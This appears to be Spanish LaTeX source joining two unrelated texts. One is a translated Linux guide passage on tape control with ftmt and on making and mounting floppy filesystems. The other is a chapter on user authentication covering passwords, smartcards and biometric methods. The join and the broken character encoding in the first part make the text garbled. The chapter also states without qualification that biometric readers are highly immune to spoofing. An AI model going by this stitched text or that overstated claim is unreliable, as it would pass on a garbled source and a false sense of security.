Otros dispositivos de cinta tienen su propio software para darles  formato.
Revisa la documentaci�n del hardware de la unidad de cinta o  la documentaci�n
del controlador de dispositivo asociado a �l.

%Before tapes can be removed from the drive, they must be rewound and
%the I/O buffers written to the tape. This is analogous to unmounting
%a floppy before ejecting it, because the tape driver also caches data
%in memory. The standard UNIX command to control tape drive operations
%is {\tt mt}. Your system may not provide this command, depending on
%whether it has tape drive facilities. The ftape driver has a similar
%command, {\tt ftmt}, which is used to control tape operations.

Antes de que se puedan extraer las cintas de la unidad, se debe escribir
los b�ffers de E/S y rebobinar la cinta. Esto es an�logo a desmontar un
disquete antes de extraerlo, porque el controlador de dispositivo tambi�n 
cachea datos en la memoria. La orden estandar de Unix para controlar las
operaciones de la unidad es {\tt mt}. El sistema puede no proporcionar
esta orden, dependiendo de si tiene soporte para unidades de cinta. El controlador ftape
tiene una orden similar, {\tt ftmt}, que se usa para controlar las operaciones de cinta.
 
%To rewind a tape before removing it, use the command
Para rebobinar una cinta antes de retirarla, se usa la orden
\begin{tscreen}
\# ftmt -f /dev/qft0 rewoffl
\end{tscreen}
%Of course, substitute the correct tape device driver for your system.
Desde luego, sustituya el controlador de dispositivo correcto para su sistema.

%It is also a good idea to retension a tape after writing to it,
%because magnetic tapes are susceptible to stretch. The command
Tambi�n es una buena idea hacer una retensi�n de la cinta despu�s de escribir
en ella, porque las cintas magn�ticas son susceptibles de arrugarse. La orden
\begin{tscreen}
\# ftmt -f /dev/qft0 retension
\end{tscreen}
realizar� la operaci�n.

%To obtain the status of the tape device, with a formatted tape
%in the drive, give the command
Para obtener el estado de un dispositivo de cinta, con una cinta
dentro utilice la orden
\begin{tscreen}
\# ftmt -f /dev/qft0 status
\end{tscreen}
%
%
% Hasta aqu�

\subsection{Utilizando disquetes como sistemas de ficheros}\label{sec-floppy}
\index{sistemas de ficheros!en disquete}
\index{disquetes!sistemas de ficheros en}
\index{mke2fs@{\tt mke2fs}!para disquete}
Puede crearse un sistema de ficheros en un disquete igual que lo har�a en
una partici�n de un disco duro. Por ejemplo,
\begin{tscreen}
\# {\em mke2fs /dev/fd0 1440}
\end{tscreen}
crea un sistema de ficheros en el disquete en {\tt /dev/fd0}. El tama�o del
sistema de ficheros debe corresponder al tama�o del disquete. Los disquetes 
de alta densidad de 3.5" tienen un tama�o de 1.44 megabytes, o 1440 bloques.
Los disquetes de alta densidad de 5.25" tienen 1200 bloques.

\index{mount@{\tt mount}!montando disquetes con}
Para poder acceder a un disquete, se debe montar {\bf mount} el sistema de 
ficheros que contiene. La instrucci�n
\begin{tscreen}
\# {\em mount -t ext2 /dev/fd0 /mnt}
\end{tscreen}
montar� el disquete en {\tt /dev/fd0} en el directorio {\tt /mnt}.
Ahora todos los ficheros del disquete aparecer�n bajo {\tt /mnt} en su 
unidad. ``{\tt -t ext2}'' especifica el tipo de sistema de ficheros como 
ext2fs. Si crea otro tipo de sistema de ficheros en el disquete, 
necesitar� especific�rselo a la instrucci�n {\tt mount}.

\index{punto de montaje!definici�n}
El ``punto de montaje'' (el directorio donde est� montando el sistema de 
ficheros) debe existir en el momento de utilizar la orden {\tt mount}. Si
no existiese, se debe crear con la instrucci�n {\tt mkdir}.

Para m�s informaci�n sobre sistemas de ficheros, montaje y puntos de 
montaje, ver secci�n~\ref{sec-manage-fs}.

\index{disquetes!desmontando}
\index{umount@{\tt umount}!desmontando disquetes con}
\blackdiamond Tenga en cuenta que cualquier entrada/salida al disquete se 
gestiona con buffers igual que si fuese de disco duro.
Si cambia datos en el disquete, puede que no vea encenderse la luz de la 
unidad hasta que el n�cleo decida vaciar sus buffers. Es importante que no
quite un disquete antes de haberlo desmontado; esto puede hacerse con
la instrucci�n
\begin{tscreen}
\# {\em umount /dev/fd0}
\end{tscreen}
No cambie los disquetes como se hace en un sistema MS-DOS; siempre que 
cambie disquetes, desmonte {\tt umount} el primero y monte {\tt mount} el
siguiente.









 
\cleardoublepage
\chapter{Autenticaci\'on de usuarios}
\label{auth}
\section{Introducci\'on y conceptos b\'asicos}
Ya sabemos que unos requerimientos primordiales de los sistemas inform\'aticos 
que desempe\~nan tareas importantes son los mecanismo de seguridad adecuados a 
la informaci\'on que se intenta proteger; el conjunto de tales mecanismos ha 
de incluir al menos un sistema que permita identificar a las entidades 
(elementos activos del sistema, generalmente usuarios) que intentan acceder a 
los objetos (elementos pasivos, como ficheros o capacidad de c\'omputo), 
mediante procesos tan simples como una contrase\~na o tan complejos como un 
dispositivo analizador de patrones retinales.\\
\\Los sistemas que habitualmente utilizamos los humanos para identificar a una
persona, como el aspecto f\'{\i}sico o la forma de hablar, son demasiado 
complejos para una computadora; el objetivo de los sistemas de identificaci\'on 
de usuarios no suele ser {\bf identificar} a una persona, sino {\bf autenticar} 
que esa persona es quien dice ser realmente. Aunque como humanos seguramente 
ambos t\'erminos nos parecer\'an equivalentes, para un ordenador existe una 
gran diferencia entre ellos:
imaginemos un potencial sistema de identificaci\'on estrictamente hablando, por 
ejemplo uno biom\'etrico basado en el reconocimiento de la retina; una persona 
mirar\'{\i}a a trav\'es del dispositivo lector, y el sistema ser\'{\i}a capaz 
de decidir si es un usuario v\'alido, y en ese caso decir de qui\'en se trata;
esto es identificaci\'on. Sin embargo, lo que habitualmente hace el usuario es
introducir su identidad (un n\'umero, un nombre de usuario\ldots) adem\'as de
mostrar sus retinas ante el lector; el sistema en este caso no tiene que 
identificar a esa persona, sino autenticarlo: comprobar los par\'ametros de la 
retina que 
est\'a leyendo con los guardados en una base de datos para el usuario que la
persona dice ser: estamos reduciendo el problema de una poblaci\'on 
potencialmente muy elevada a un grupo de usuarios m\'as reducido, el grupo de 
usuarios del sistema que necesita autenticarlos.\\
\\Los m\'etodos de autenticaci\'on se suelen dividir en tres grandes 
categor\'{\i}as (\cite{kn:dav84}, \cite{kn:eve92}), en funci\'on de lo que 
utilizan para la verificaci\'on de identidad: (a) algo que el usuario sabe, 
(b) algo que \'este posee, y (c) una caracter\'{\i}stica f\'{\i}sica 
del usuario o un acto involuntario del mismo. Esta \'ultima categor\'{\i}a se
conoce con el nombre de {\bf autenticaci\'on biom\'etrica}. Es f\'acil ver 
ejemplos de cada uno de estos tipos de autenticaci\'on: 
un {\it password} (Unix) o {\it passphrase} ({\sc pgp}) es algo que el usuario 
conoce 
y el resto de personas no, una tarjeta de identidad es algo que el usuario lleva
consigo, la huella dactilar es una caracter\'{\i}stica f\'{\i}sica del usuario, 
y un acto involuntario podr\'{\i}a considerarse que se produce al firmar (al 
rubricar la firma no se piensa en el dise\~no de cada trazo individualmente). 
Por supuesto, un sistema de autenticaci\'on puede (y debe, para incrementar su 
fiabilidad) combinar mecanismos de diferente tipo, como en el caso de una 
tarjeta de cr\'edito junto al PIN a la hora de utilizar un cajero autom\'atico 
o en el de un dispositivo generador de claves para el uso de {\it One Time 
Passwords}.\\
\\Cualquier sistema de identificaci\'on (aunque les llamemos as\'{\i}, 
recordemos
que realmente son sistemas de autenticaci\'on) ha de poseer unas determinadas
caracter\'{\i}sticas para ser viable; obviamente, ha de ser fiable con una 
probabilidad muy elevada (podemos hablar de tasas de fallo de $10^{-4}$ en los
sistemas menos seguros), econ\'omicamente factible para la organizaci\'on (si
su precio es superior al valor de lo que se intenta proteger, tenemos un sistema
incorrecto) y ha de soportar con \'exito cierto tipo de ataques (por ejemplo,
imaginemos que cualquier usuario puede descifrar el {\it password} utilizado en
el sistema de autenticaci\'on de Unix en tiempo polinomial; esto ser\'{\i}a
inaceptable). Aparte de estas caracter\'{\i}sticas tenemos otra, no t\'ecnica 
sino humana, pero quiz\'as la m\'as importante: un sistema de autenticaci\'on ha
de ser aceptable para los usuarios (\cite{kn:tan91}), que ser\'an al fin y al 
cabo quienes lo utilicen. Por ejemplo, imaginemos un potencial sistema de 
identificaci\'on para acceder a los recursos de la Universidad, consistente en 
un dispositivo que fuera capaz de realizar un an\'alisis de sangre a un usuario 
y as\'{\i} comprobar que es quien dice ser; seguramente ser\'{\i}a barato y
altamente fiable, pero nadie aceptar\'{\i}a dar un poco de sangre cada vez que
desee consultar su correo.
\section{Sistemas basados en algo conocido: contrase\~nas}
El modelo de autenticaci\'on m\'as b\'asico consiste en decidir si un usuario
es quien dice ser simplemente bas\'andonos en una prueba de conocimiento que
{\it a priori} s\'olo ese usuario puede superar; y desde Al\'{\i} Bab\'a y su
{\it `\'Abrete, S\'esamo'} hasta los m\'as modernos sistemas Unix, esa prueba
de conocimiento no es m\'as que una contrase\~na que en principio es secreta.
Evidentemente, esta aproximaci\'on es la m\'as vulnerable a todo tipo de 
ataques, pero tambi\'en la m\'as barata, por lo que se convierte en la 
t\'ecnica m\'as utilizada en entornos que no precisan de una alta seguridad, 
como es el caso de los sistemas Unix en redes normales (y en general en todos 
los
sistemas operativos en redes de seguridad media--baja); otros entornos en los
que se suele aplicar este modelo de autenticaci\'on son las aplicaciones que
requieren de alguna identificaci\'on de usuarios, como el {\it software} de 
cifrado {\sc pgp} o el esc\'aner de seguridad {\sc nessus}. Tambi\'en se 
utiliza como complemento a otros mecanismos de autenticaci\'on, por ejemplo en 
el caso del N\'umero de Identificaci\'on Personal (PIN) a la hora de utilizar 
cajeros autom\'aticos.\\
\\En todos los esquemas de autenticaci\'on basados en contrase\~nas se cumple
el mismo protocolo: las entidades (generalmente dos) que participan en la 
autenticaci\'on 
acuerdan una clave, clave que han de mantener en secreto si desean que la 
autenticaci\'on sea fiable. Cuando una de las partes desea autenticarse ante
otra se limita a mostrarle su conocimiento de esa clave com\'un, y si \'esta
es correcta se otorga el acceso a un recurso. Lo habitual es que existan unos
roles preestablecidos, con una entidad activa que desea autenticarse y otra
pasiva que admite o rechaza a la anterior (en el modelo del acceso a sistemas
Unix, tenemos al usuario y al sistema que le permite o niega la entrada).\\
\\Como hemos dicho, este esquema es muy fr\'agil: basta con que una de las
partes no mantenga la contrase\~na en secreto para que toda la seguridad del
modelo se pierda; por ejemplo, si el usuario de una m\'aquina Unix comparte
su clave con un tercero, o si ese tercero consigue leerla y rompe su cifrado 
(por ejemplo, como veremos luego, mediante un ataque de diccionario), 
autom\'aticamente esa persona puede autenticarse ante el sistema con \'exito
con la identidad de un usuario que no le corresponde.\\
\\En el punto \ref{unixua} hablaremos con m\'as detalle del uso de 
contrase\~nas para el caso de la autenticaci\'on de usuarios en Unix.
\section{Sistemas basados en algo pose\'{\i}do: tarjetas inteligentes}
Hace m\'as de veinte a\~nos un periodista franc\'es llamado Roland Moreno 
patentaba la integraci\'on de un procesador en una tarjeta de pl\'astico; sin
duda, no pod\'{\i}a imaginar el abanico de aplicaciones de seguridad que ese
nuevo dispositivo, denominado {\it chipcard}, estaba abriendo. Desde entonces,
cientos de millones de esas tarjetas han sido fabricadas, y son utilizadas a
diario para fines que var\'{\i}an desde las tarjetas monedero m\'as sencillas
hasta el control de accesos a instalaciones militares y agencias de 
inteligencia de todo el mundo; cuando a las {\it chipcards} se les incorpor\'o
un procesador inteligente nacieron las {\it smartcards}, una gran revoluci\'on
en el \'ambito de la autenticaci\'on de usuarios.\\
\\Desde un punto de vista formal (\cite{kn:gui92}), una tarjeta inteligente (o 
{\it smartcard}) es un dispositivo de seguridad del tama\~no de una tarjeta de 
cr\'edito, resistente a la adulteraci\'on, que ofrece funciones para un
almacenamiento seguro de informaci\'on y tambi\'en para el procesamiento de
la misma en base a tecnolog\'{\i}a VLSI. En la pr\'actica, las tarjetas 
inteligentes poseen un chip empotrado en la propia tarjeta que puede implementar
un sistema de ficheros cifrado y funciones criptogr\'aficas, y adem\'as puede
detectar activamente intentos no v\'alidos de acceso a la informaci\'on 
almacenada (\cite{kn:rc570}); este chip inteligente es el que las diferencia de
las simples tarjetas de cr\'edito, que s\'olamente incorporan una banda 
magn\'etica donde va almacenada cierta informaci\'on del propietario de la 
tarjeta.\\
\begin{figure}
\begin{center}

\includegraphics{smartcard.png}
\end{center}
\caption{Estructura gen\'erica de una {\it smartcard}.}
\label{sc}
\end{figure}
\\En la figura \ref{sc} se muestra la estructura m\'as generalista de una 
tarjeta inteligente; en ella podemos observar que el acceso a las \'areas de
memoria s\'olamente es posible a trav\'es de la unidad de entrada/salida y de
una CPU (t\'{\i}picamente de 8 bits), lo que evidentemente aumenta la seguridad 
del dispositivo. Existe tambi\'en
un sistema operativo empotrado en la tarjeta -- generalmente en ROM, aunque 
tambi\'en se puede extender con funciones en la EEPROM -- cuya funci\'on es
realizar tareas criptogr\'aficas (algoritmos de cifrado como RSA o Triple
DES, funciones resumen\ldots); el criptoprocesador apoya estas tareas ofreciendo
operaciones RSA con claves de 512 a 1024 bits. Un ejemplo de implementaci\'on 
real de este esquema lo constituye la tarjeta inteligente CERES, de la F\'abrica
Nacional de Moneda y Timbre espa\~nola (\cite{kn:pit99}); en ella se incluye
adem\'as un generador de n\'umeros aleatorios junto a los mecanismos de 
protecci\'on internos de la tarjeta.\\
\\Cuando el usuario poseedor de una {\it smartcard} desea autenticarse necesita
introducir la tarjeta en un {\it hardware} lector; los dos dispositivos se 
identifican entre s\'{\i} con un protocolo a dos bandas en el que es necesario
que ambos conozcan la misma clave (CK o CCK, {\it Company Key} o {\it Chipcard
Communication Key}), lo que elimina la posibilidad de utilizar tarjetas de
terceros para autenticarse ante el lector de una determinada compa\~n\'{\i}a;
adem\'as esta clave puede utilizarse para asegurar la comunicaci\'on entre
la tarjeta y el dispositivo lector. Tras identificarse las dos partes, se lee
la identificaci\'on personal (PID) de la tarjeta, y el usuario teclea su
PIN; se inicia entonces un protocolo desaf\'{\i}o--respuesta: se env\'{\i}a 
el PID a la m\'aquina y \'esta desaf\'{\i}a a la tarjeta, que responde al
desaf\'{\i}o utilizando una clave personal del usuario (PK, {\it Personal 
Key}). Si la respuesta es correcta, el {\it host} ha identificado la tarjeta y 
el usuario obtiene acceso al recurso pretendido.\\
\\Las ventajas de utilizar tarjetas inteligentes como medio para autenticar
usuarios son muchas frente a las desventajas; se trata de un modelo ampliamente
aceptado entre los usuarios, r\'apido, y que incorpora {\it hardware} de alta
seguridad tanto para almacenar datos como para realizar funciones de cifrado.
Adem\'as, su uso es factible tanto para controles de acceso f\'{\i}sico como 
para controles de acceso l\'ogico a los {\it hosts}, y se integra f\'acilmente 
con otros mecanismos de autenticaci\'on como las contrase\~nas; y en caso de
desear bloquear el acceso de un usuario, no tenemos m\'as que retener su 
tarjeta cuando la introduzca en el lector o marcarla como inv\'alida en una
base de datos (por ejemplo, si se equivoca varias veces al teclar su PIN, igual 
que sucede con una tarjeta de cr\'edito normal). Como principal
inconveniente de las {\it smartcards} podemos citar el coste adicional que
supone para una organizaci\'on el comprar y configurar la infraestructura de
dispositivos lectores y las propias tarjetas; aparte, que un usuario pierda
su tarjeta es bastante f\'acil, y durante el tiempo que no disponga de ella
o no puede acceder al sistema, o hemos de establecer reglas especiales que
pueden comprometer nuestra seguridad (y por supuesto se ha de marcar como 
tarjeta inv\'alida en una base de datos central, para que un potencial atacante
no pueda utilizarla). Tambi\'en la distancia l\'ogica entre la {\it smartcard} y
su poseedor -- simplemente nos podemos fijar en que la tarjeta no tiene
un interfaz para el usuario -- puede ser fuente de varios problemas de
seguridad (\cite{kn:bal99}, \cite{kn:gob96}).\\
\\Aparte de los problemas que puede implicar el uso de {\it smartcards} en 
s\'{\i}, contra la l\'ogica de una tarjeta inteligente existen diversos 
m\'etodos de ataque, como realizar 
ingenier\'{\i}a inversa -- destructiva -- contra el circuito de silicio (y los 
contenidos de la ROM), adulterar la informaci\'on guardada en la tarjeta o 
determinar por diferentes m\'etodos el contenido de la memoria EEPROM. Sin duda
una de las personas que m\'as ha contribuido a incrementar la seguridad de las
{\it smartcards} gracias a sus estudios y ataques es el experto brit\'anico 
Ross J. Anderson (\cite{kn:and97}, \cite{kn:and96}\ldots); en su p\'agina {\it 
web} personal, {\tt http://www.cl.cam.ac.uk/users/rja14/}, podemos encontrar 
todos sus art\'{\i}culos sobre este tema\footnote{Y sobre otros, principalmente 
esteganograf\'{\i}a y criptograf\'{\i}a.}, demasiados como para citarlos 
aqu\'{\i} uno a uno.
\section{Sistemas de autenticaci\'on biom\'etrica}
A pesar de la importancia de la criptolog\'{\i}a en cualquiera de los sistemas 
de 
identificaci\'on de usuarios vistos, existen otra clase de sistemas en los que 
no se aplica esta ciencia, o al menos su aplicaci\'on es secundaria. Es m\'as,
parece que en un futuro no muy lejano estos ser\'an los sistemas que se van a 
imponer en la mayor\'{\i}a de situaciones en las que se haga necesario 
autenticar un usuario: son m\'as amigables para el usuario (no va a necesitar 
recordar {\it passwords} o n\'umeros de identificaci\'on complejos, y, como se 
suele decir, el usuario puede olvidar una tarjeta de identificaci\'on en casa, 
pero nunca se olvidar\'a de su mano o su ojo) y son mucho m\'as 
dif\'{\i}ciles de falsificar que una simple contrase\~na o una tarjeta 
magn\'etica; las principales razones por la que no se han impuesto ya
en nuestros dias es su elevado precio, fuera del alcance de muchas 
organizaciones, y su dificultad de mantenimiento (\cite{kn:gue97}).\\
\\Estos sistemas son los denominados {\bf biom\'etricos}, basados en 
caracter\'{\i}sticas f\'{\i}sicas del usuario a identificar. El reconocimiento 
de formas, la inteligencia artificial y el aprendizaje son las ramas de la 
inform\'atica que desempe\~nan el papel m\'as importante en los sistemas de 
identificaci\'on biom\'etricos; la criptolog\'{\i}a se limita aqu\'{\i} a un uso
secundario, como el cifrado de una base de datos de patrones retinales, o la 
transmisi\'on de una huella dactilar entre un dispositivo analizador y una base
de datos.
La autenticaci\'on basada en caracter\'{\i}sticas f\'{\i}sicas existe desde 
que existe el hombre y, sin darnos cuenta, es la que m\'as utiliza cualquiera
de nosotros en su vida cotidiana: a diario identificamos a personas por los
rasgos de su cara o por su voz. Obviamente aqu\'{\i} el agente reconocedor lo
tiene f\'acil porque es una persona, pero en el modelo aplicable a redes o 
sistemas Unix el agente ha de ser un 
dispositivo que, bas\'andose en caracter\'{\i}sticas del sujeto a identificar,
le permita o deniegue acceso a un determinado recurso.\\
\begin{table}
\begin{center}
\begin{tabular}{|p{0.75in}||p{0.75in}|p{0.75in}|p{0.70in}|p{0.85in}|p{0.65in}|p{0.85in}|}
\hline
& Ojo -- Iris & Ojo -- Retina & Huellas dactilares & Geometr\'{\i}a de la mano & Escritura -- Firma & Voz\\
\hline\hline
Fiabilidad & Muy alta & Muy alta & Alta & Alta & Alta & Alta\\ 
\hline
Facilidad de uso & Media & Baja & Alta & Alta & Alta & Alta\\
\hline
Prevenci\'on de ataques & Muy Alta & Muy alta & Alta & Alta & Media & Media\\
\hline
Aceptaci\'on & Media & Media & Media & Alta & Muy alta & Alta\\
\hline
Estabilidad & Alta & Alta & Alta & Media & Media & Media\\
\hline
Identificaci\'on y autenticaci\'on & Ambas & Ambas & Ambas & Autenticaci\'on & Ambas & Autenticaci\'on\\
\hline
Est\'andars & -- & -- & ANSI/NIST, FBI & -- & -- & SVAPI\\
\hline
Interferencias & Gafas & Irritaciones & Suciedad, heridas, asperezas \ldots & Artritis, reumatismo \ldots & Firmas f\'aciles o cambiantes & Ruido, resfriados \ldots\\
\hline
Utilizaci\'on & Instalaciones nucleares, servicios m\'edicos, centros penitenciarios & Instalaciones nucleares, servicios m\'edicos, centros penitenciarios & Polic\'{\i}a, industrial & General & Industrial & Accesos remotos en bancos o bases de datos\\
\hline 
Precio por nodo en 1997 (USD) & 5000 & 5000 & 1200 & 2100 & 1000 & 1200\\
\hline
\end{tabular}
\end{center}
\caption{Comparaci\'on de m\'etodos biom\'etricos.}
\label{biocomp}
\end{table}
\\Aunque la autenticaci\'on de usuarios mediante m\'etodos biom\'etricos es
posible utilizando cualquier caracter\'{\i}stica \'unica y mesurable del 
individuo (esto incluye desde la forma de teclear ante un ordenador hasta 
los patrones de ciertas venas, pasando por el olor corporal), tradicionalmente 
ha estado basada en cinco grandes grupos (\cite{kn:eve92}). En la tabla 
\ref{biocomp} (\cite{kn:huo98}, \cite{kn:phi97}) se muestra una comparativa de 
sus rasgos m\'as
generales, que vamos a ver con m\'as detalle en los puntos siguientes.\\
\\Los dispositivos biom\'etricos tienen tres partes principales; por un lado,
disponen de un mecanismo autom\'atico que lee y captura una imagen digital o
anal\'ogica de la caracter\'{\i}stica a analizar. Adem\'as disponen de una 
entidad para manejar aspectos como la compresi\'on, almacenamiento o 
comparaci\'on de los datos capturados con los guardados en una base de datos
(que son considerados v\'alidos), y tambi\'en ofrecen una interfaz para las
aplicaciones que los utilizan. El proceso general de autenticaci\'on sigue unos
pasos comunes a todos los modelos de autenticaci\'on biom\'etrica: {\bf 
captura} o lectura de los datos que el usuario a validar presenta, {\bf 
extracci\'on} de ciertas caracter\'{\i}sticas de la muestra (por ejemplo, las
minucias de una huella dactilar), {\bf comparaci\'on} de tales 
caracter\'{\i}sticas con las guardadas en una base de datos, y {\bf decisi\'on}
de si el usuario es v\'alido o no. Es en esta decisi\'on donde principalmente
entran en juego las dos caracter\'{\i}sticas b\'asicas de la fiabilidad de todo
sistema biom\'etrico (en general, de todo sistema de autenticaci\'on): las 
tasas de falso rechazo y de falsa aceptaci\'on. Por tasa de {\bf falso rechazo} 
({\it False Rejection Rate}, FRR) se entiende la probabilidad de que el sistema
de autenticaci\'on rechaze a un usuario leg\'{\i}timo porque no es capaz de
identificarlo correctamente, y por tasa de {\bf falsa aceptaci\'on} ({\it False
Acceptance Rate}, FAR) la probabilidad de que el sistema autentique 
correctamente a un usuario ileg\'{\i}timo; evidentemente, una FRR alta provoca
descontento entre los usuarios del sistema, pero una FAR elevada genera un 
grave problema de seguridad: estamos proporcionando acceso a un recurso a 
personal no autorizado a acceder a \'el.\\
\\Por \'ultimo, y antes de entrar m\'as a fondo con los esquemas de 
autenticaci\'on biom\'etrica cl\'asicos, quiz\'as es conveniente desmentir uno
de los grandes mitos de estos modelos: la vulnerabilidad a ataques de 
simulaci\'on. En cualquier pel\'{\i}cula o libro de esp\'{\i}as que se precie, 
siempre se consigue `enga\~nar' a autenticadores biom\'etricos para conseguir 
acceso a determinadas instalaciones mediante estos ataques: se simula la parte 
del cuerpo a analizar mediante un modelo o incluso utilizando \'organos 
amputados a un cad\'aver o al propio usuario vivo (crudamente, se le corta una 
mano o un dedo, se le saca un ojo\ldots para conseguir que el sistema permita 
la entrada). Evidentemente, esto s\'olo sucede en la ficci\'on: hoy en d\'{\i}a 
cualquier sistema
biom\'etrico -- con excepci\'on, quiz\'as, de algunos modelos basados en voz
de los que hablaremos luego -- son altamente inmunes a estos ataques. Los 
analizadores de retina, de iris, de huellas o de la geometr\'{\i}a de la mano
son capaces, aparte de decidir si el miembro pertenece al usuario leg\'{\i}timo,
de determinar si \'este est\'a vivo o se trata de un cad\'aver.
\subsection{Verificaci\'on de voz}
En los sistemas de reconocimiento de voz no se intenta, como mucha gente piensa,
reconocer lo que el usuario dice, sino identificar una serie de sonidos y sus
caracter\'{\i}sticas para decidir si el usuario es quien dice ser. Para 
autenticar a un usuario utilizando un reconocedor de voz se debe disponer de 
ciertas condiciones para el correcto registro de los datos, como ausencia de 
ruidos, reverberaciones o ecos; idealmente, estas condiciones han de ser las 
mismas siempre que se necesite la autenticaci\'on.\\
\\Cuando un usuario desea acceder al sistema pronunciar\'a unas frases en las
cuales reside gran parte de la seguridad del protocolo; en algunos modelos, los
denominados de texto dependiente, el sistema tiene almacenadas un conjunto muy
limitado de frases que es capaz de reconocer: por ejemplo, imaginemos que el
usuario se limita a pronunciar su nombre, de forma que el reconocedor lo 
entienda y lo autentique. Como veremos a continuaci\'on, estos modelos 
proporcionan poca seguridad en comparaci\'on con los de texto independiente, 
donde el sistema va `proponiendo' a la persona la pronunciaci\'on de ciertas 
palabras
extra\'{\i}das de un conjunto bastante grande. De cualquier forma, sea cual sea
el modelo, lo habitual es que las frases o palabras sean caracter\'{\i}sticas
para maximizar la cantidad de datos que se pueden analizar (por ejemplo, 
frases con una cierta entonaci\'on, pronunciaci\'on de los diptongos, palabras 
con muchas vocales\ldots). Conforme va hablando el usuario, el sistema registra
toda la informaci\'on que le es \'util; cuando termina la frase, ya ha de estar
en disposici\'on de facilitar o denegar el acceso, en funci\'on de la 
informaci\'on analizada y contrastada con la de la base de datos.\\
\\El principal problema del reconocimiento de voz es la inmunidad frente a {\it 
replay attacks}, un modelo de ataques de simulaci\'on en los que un atacante
reproduce (por ejemplo, por medio de un magnet\'ofono) las frases o palabras que
el usuario leg\'{\i}timo pronuncia para acceder al sistema. Este problema es 
especialmente grave en los sistemas que se basan en textos
preestablecidos: volviendo al ejemplo anterior, el del nombre de cada usuario, 
un atacante no tendr\'{\i}a m\'as que grabar a una persona que pronuncia su
nombre ante el autenticador y luego reproducir ese sonido para conseguir el 
acceso; casi la \'unica soluci\'on consiste en utilizar otro sistema de 
autenticaci\'on junto al reconocimiento de voz. Por contra, en modelos de
texto independiente, m\'as interactivos, este ataque no es tan
sencillo porque la autenticaci\'on se produce realmente por una especie de 
desaf\'{\i}o--respuesta entre el usuario y la m\'aquina, de forma que la 
cantidad de texto grabado habr\'{\i}a de ser mucho mayor -- y la velocidad para
localizar la parte del texto que el sistema propone habr\'{\i}a de ser
elevada --. Otro grave problema de los sistemas basados en reconocimiento de
voz es el tiempo que el usuario 
emplea hablando delante del analizador, al que se a\~nade el que \'este necesita
para extraer la informaci\'on y contrastarla con la de su base de datos; aunque
actualmente en la mayor\'{\i}a de sistemas basta con una sola frase, es 
habitual que el usuario se vea obligado a repetirla porque el sistema le deniega
el acceso (una simple congesti\'on hace variar el tono de voz, aunque sea 
levemente, y el sistema no es capaz de decidir si el acceso ha de ser autorizado
o no; incluso el estado an\'{\i}mico de una persona var\'{\i}a su timbre\ldots).
A su favor, el reconocimiento de voz posee la cualidad de una excelente acogida
entre los usuarios, siempre y cuando su funcionamiento sea correcto y \'estos
no se vean obligados a repetir lo mismo varias veces, o se les niegue un acceso
porque no se les reconoce correctamente.
\subsection{Verificaci\'on de escritura}  
Aunque la escritura (generalmente la firma) no es una caracter\'{\i}stica 
estrictamente biom\'etrica, como hemos comentado en la introducci\'on se suele 
agrupar dentro de esta categor\'{\i}a; de la misma forma que suced\'{\i}a en
la verificaci\'on de la voz, el objetivo aqu\'{\i} no es interpretar o entender 
lo que el usuario escribe en el lector, sino autenticarlo bas\'andose en 
ciertos rasgos tanto de la firma como de su r\'ubrica.\\
\\La verificaci\'on en base a firmas es algo que todos utilizamos y aceptamos 
d\'{\i}a a d\'{\i}a en documentos o cheques; no obstante, 
existe una diferencia fundamental entre el uso de las firmas que hacemos en
nuestra vida cotidiana y los sistemas biom\'etricos; mientras que habitualmente 
la verificaci\'on de la firma consiste en un simple an\'alisis visual sobre una 
impresi\'on en papel, est\'atica, en los sistemas autom\'aticos no es posible
autenticar usuarios en base a la representaci\'on de los trazos de su firma. En
los modelos biom\'etricos se utiliza adem\'as la forma de firmar, las 
caracter\'{\i}sticas din\'amicas (por eso se les suele denominar {\it Dynamic
Signature Verification}, DSV): el tiempo utilizado para rubricar, las veces que
se separa el bol\'{\i}grafo del papel, el \'angulo con que se realiza cada
trazo\ldots\\
\\Para utilizar un sistema de autenticaci\'on basado en firmas se solicita en 
primer lugar a los futuros usuarios un n\'umero determinado de firmas ejemplo, 
de las cuales el sistema extrae y almacena ciertas caracter\'{\i}sticas; esta 
etapa se denomina de {\it aprendizaje}, y el principal obst\'aculo a su correcta
ejecuci\'on son los usuarios que no suelen firmar uniformemente. Contra este
problema la \'unica soluci\'on (aparte de una concienciaci\'on de tales 
usuarios) es relajar las restricciones del sistema a la hora de {\it aprender}
firmas, con lo que se decrementa su seguridad.\\
\\Una vez que el sistema conoce las firmas de sus usuarios, cuando estos desean
acceder a \'el se les solicita tal firma, con un n\'umero limitado de intentos
(generalmente m\'as que los sistemas que autentican mediante contrase\~nas, ya
que la firma puede variar en un individuo por m\'ultiples factores). La firma
introducida es capturada por un l\'apiz \'optico o por una lectora sensible
(o por ambos), y el acceso al sistema se produce una vez que el usuario ha 
introducido una firma que el verificador es capaz de distinguir como 
aut\'entica.
\subsection{Verificaci\'on de huellas}  
T\'{\i}picamente la huella dactilar de un individuo ha sido un patr\'on bastante
bueno para determinar su identidad de forma inequ\'{\i}voca, ya que est\'a
aceptado que dos dedos nunca poseen huellas similares, ni siquiera entre 
gemelos o
entre dedos de la misma persona. Por tanto, parece obvio que las huellas
se convertir\'{\i}an antes o despu\'es en un modelo de autenticaci\'on 
biom\'etrico: desde el siglo pasado hasta nuestros d\'{\i}as se vienen 
realizando con \'exito clasificaciones sistem\'aticas de huellas dactilares en 
entornos policiales, y el uso de estos patrones fu\'e uno de los primeros en
establecerse como modelo de autenticaci\'on biom\'etrica.\\
\begin{figure}[t]
\begin{center}

\includegraphics{fingerprint.png}
\end{center}
\caption{Huella dactilar con sus minucias extra\'{\i}das. \copyright 1998 Idex 
AS, {\tt http://www.idex.no/}.}
\label{fingerprint}
\end{figure}
\\Cuando un usuario desea autenticarse ante el sistema situa su dedo en un 
\'area determinada (\'area de lectura, no se necesita en ning\'un momento una 
impresi\'on en tinta). Aqu\'{\i} se toma una imagen que posteriormente se 
normaliza mediante un sistema de finos espejos\footnote{Existen otros m\'etodos
para obtener una imagen de la huella, como la representaci\'on t\'ermica, pero 
su uso es menos habitual -- principalmente por el precio de los lectores --.} 
para corregir \'angulos, y es de
